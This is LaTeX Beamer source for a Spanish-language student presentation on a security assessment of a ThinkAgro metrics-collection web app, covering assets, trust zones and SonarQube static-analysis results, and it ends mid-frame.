\documentclass{beamer}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[spanish]{babel}
\usepackage{amssymb}
\usepackage{soul}
\usepackage{listings}
\usepackage{alltt}
\usepackage{underscore}
\usepackage{verbatim}
\usepackage{graphicx}
\usepackage{ae}
\usepackage{amsmath}
\usepackage{amsfonts}
\PassOptionsToPackage{pdflatex}{graphicx}
\usepackage{pgfpages}
\usepackage{algorithm}


\usepackage{tabularx}
\usepackage{placeins}
\usepackage[noend]{algpseudocode}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{minted}

\usepackage{graphicx,eso-pic}

\algdef{SE}[DOWHILE]{Do}{doWhile}{\algorithmicdo}[1]{\algorithmicwhile\ #1}%
\newcommand{\abs}[1]{\lvert#1\rvert}
\newcommand{\norm}[1]{\lVert#1\rVert}


\usetheme{Warsaw}
% \graphicspath{ {images/} }

\definecolor{listinggray}{gray}{0.9}
\definecolor{lbcolor}{rgb}{0.9,0.9,0.9}


\setbeameroption{show notes}
\setbeameroption{show notes on second screen=right}

\usefonttheme{professionalfonts}


\title[Seguridad Informática]{Seguridad Informática}
\subtitle{Proyecto II} 
\author[E. Regla]{Erik Regla} 
\institute[UTalca]{Universidad de Talca}
\date{\today} 

\begin{document}

\begin{frame}
\titlepage
\note[item]{Buenas tardes, Mi nombre es Erik Regla y a continuación les voy a presentar mi proyecto 2.}
\end{frame}

\section{Introducción}

\subsection{ThinkAgro}
\begin{frame}{Introducción}
    \centering
    
\includegraphics[height=0.9\textheight]{./fragments/haha.png}
    
    \note[item]{El contexto de la aplicación es sobre un módulo de recolección de indicadores para  ThinkAgro, desarrollado durante el curso de Taller de Diseño de Software el año 2018.}
    \note[item]{La idea era generar a travez de un proceso agil de software, un producto en el transcurso de un año.}
    \note[item]{Aunque claro, nosotros nos pusimos en realidad la soga al cuello ahi con la metodología.}
\end{frame}

\begin{frame}{Organización del equipo}
    \centering
    
\includegraphics[height=0.9\textheight]{./fragments/team.png}
    
    \note[item]{El equipo siguió una distribución estándar de un equipo ágil, la idea es reducir al mínimo el ruido en el intercambio de información.}
    \note[item]{Como antecedente...}
\end{frame}

\begin{frame}{Activos pt 1}
        
    \begin{itemize}
        \item{ Esquemas de almacenaje, que definen el como se estructura un elemento de evaluación. Estos pueden ser esquemas de:
            \begin{itemize}
                \item Preguntas de selección multiple
                \item Campos de Texto
                \item Resultados de encuestas
                \item Selectores
            \end{itemize}
        }
    \end{itemize}

    \note[item]{Los activos que podemos encontrar son los esquemas de almacenaje...}
\end{frame}


\begin{frame}{Activos pt 2}
        
    \begin{itemize}
        \item{ Esquemas de presentación, que definen el como se estructura un elemento de presentación. Estos pueden ser esquemas de:
            \begin{itemize}
                \item Preguntas de selección multiple
                \item Campos de Texto
                \item Resultados de encuestas
                \item Selectores
                \item Metricas
                \item Indicadores
            \end{itemize}
        }
        \item{ Esquemas de cálculo, que definen el como se estructura el cálculo de un indicador o una métrica.}
        \item { Base de datos de usuarios }
    \end{itemize}

    \note[item]{de presentación, de calculo, y de usuarios. Información relevamente aparte de eso no había ya que es solo un recolector de méticas.}
\end{frame}


\begin{frame}{Zonas de confianza}
    \centering
    
\includegraphics[height=0.6\textheight]{./fragments/diagram.png}
    
    \note[item]{Para esta aplicación tenemos la siguiente zona de confianza}
    \note[item]{Base de datos}
    \note[item]{Procesos externos (en segundo plano, como autenticación)}
    \note[item]{Browser}
    \note[item]{Aplicación web}
    \note[item]{Api Google}
    \note[item]{Red docker}
\end{frame}




\begin{frame}{Análisis estático}
    \centering
    
\includegraphics[height=0.6\textheight]{./fragments/sonarqube2.png}
    
    \note[item]{En análisis estático fue realizado utilizado sonarcube}
    \note[item]{
        Dentro de este análisis estático realizado, se notifican 2 vulnerabilidades en especifico y 4 elementos que requieren atención por implicar problemas de seguridad.}
        \note[item]{Afortunadamente, ninguno de los problemas requería atención, ya que por su contexto no representan un riesgo.}

    \note[item]{Posteriormente para el despliegue usamos docker, pero...}
\end{frame}




\begin{frame}{Despliegue}
    \centering

        
    \begin{figure}
        \centering
        
\includegraphics[width=.9\textwidth]{fragments/thinkno.png}
    \end{figure}

    \note[item]{Lamentablemente no hubo forma de hacerlo, ya que los servicios externos ya no están disponinbles.}
    \note[item]{
        Dentro de este análisis estático realizado, se notifican 2 vulnerabilidades en especifico y 4 elementos que requieren atención por implicar problemas de seguridad.}
        \note[item]{Afortunadamente, ninguno de los problemas requería atención, ya que por su contexto no representan un riesgo.}
        \note[item]{Ahora, esto tiene un rationale. Debido a que toda la arquitectura estaba pensada en base a un modelo de contenedores y servicios segregados, un ambiente productivo en primer lugar no tiene mucho que hacer pentesting ni DAST.}
\end{frame}

\begin{frame}{Despliegue}
    \centering

    \begin{figure}
        \centering
